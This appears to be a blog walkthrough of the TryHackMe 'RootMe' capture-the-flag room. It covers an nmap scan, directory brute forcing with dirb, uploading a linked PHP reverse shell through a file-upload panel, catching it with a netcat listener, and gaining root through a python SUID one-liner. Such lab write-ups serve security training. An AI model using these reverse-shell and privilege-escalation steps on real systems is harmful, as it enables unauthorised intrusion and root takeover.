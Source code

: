 ```yaml
---
title: "RootMe Walkthrough"
date: 2021-05-07T14:50:28+01:00
lastmod: 2021-05-12T17:51:51+01:00
draft: false
description: "A walkthrough to the RootMe Room on TryHackMe."

tags: ["hacking", "web", "walkthrough", "privesc"]
categories: ["TryHackMe Walkthroughs"]

---
```


One of the best ways to learn ethical hacking is to practice it. So below is a walkthrough of the [RootMe Room on THM](https://tryhackme.com/room/rrootme)

# Reconnaissance

## Nmap
As with most machines, I began with an Nmap scan - which answers the first few questions. 

I firstly scanned with sV to determine the software versions, however as the target wouldn't respond to host discovery, I had to disable it using the -Pn option.

```sh
$ nmap -sV -Pn 10.10.130.205
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-03 20:08 BST
Nmap scan report for 10.10.130.205
Host is up (0.068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.90 seconds
```

## Directory Searching

Next we had to preform a directory brute force, so I started dirb.

```sh
$ dirb http://10.10.130.205

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon May  3 20:09:00 2021
URL_BASE: http://10.10.130.205/
WORDLIST_FILES: /data/data/com.termux/files/usr/share/dirb/wordlists/common.txt

-----------------
GENERATED WORDS: 4612

---- Scanning URL: http://10.10.130.205/ ----
                                                                                    ==> DIRECTORY: http://10.10.130.205/css/
+ http://10.10.130.205/index.php (CODE:200|SIZE:616)
==> DIRECTORY: http://10.10.130.205/js/
==> DIRECTORY: http://10.10.130.205/panel/
```

# Getting a Shell

From the recon above, we discover the page /panel/ and when we navigate to that page, we are presented with a file upload area.

Now I wondered if we could upload a shell and as we know the server runs Apache I grabbed the [Pentest Monkey Reverse PHP Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Firstly, we setup a netcat listener ready to receive the shell on the attacking machine.

```sh
$ nc -nvlp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

Next I edited line 49 of the shell to match my attacking machine's IP address and uploaded it to the website.

Once we uploaded the file, we are provided with a success message; it says Veja - which means go. So if you click on the link it will open the file, this will cause the page to freeze.

Now we return to the netcat listener and we have received a shell and can find the user flag.

# Privilege Escalation

Now we have found the user flag, we need to escalate our privileges. To do this, I used to find files with a SUID bit.

```sh
find / -perm /4000 2>/dev/null
```

From that, you need to look at the list and see if there are any unusual files. Unfortunately, this step needs experience for you to know what is unusual; therefore I advise that you enter the file names into [GTFObins](https://gtfobins.github.io/) and looking for SUID exploits.

After running down the list, you discover that python has a SUID vulnerability, so now you run it on the reverse shell.

Once the exploit is complete, I use the whoami command to check it worked

```sh
usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

From here you need to find the root flag by outputting the file in the root users home directory.
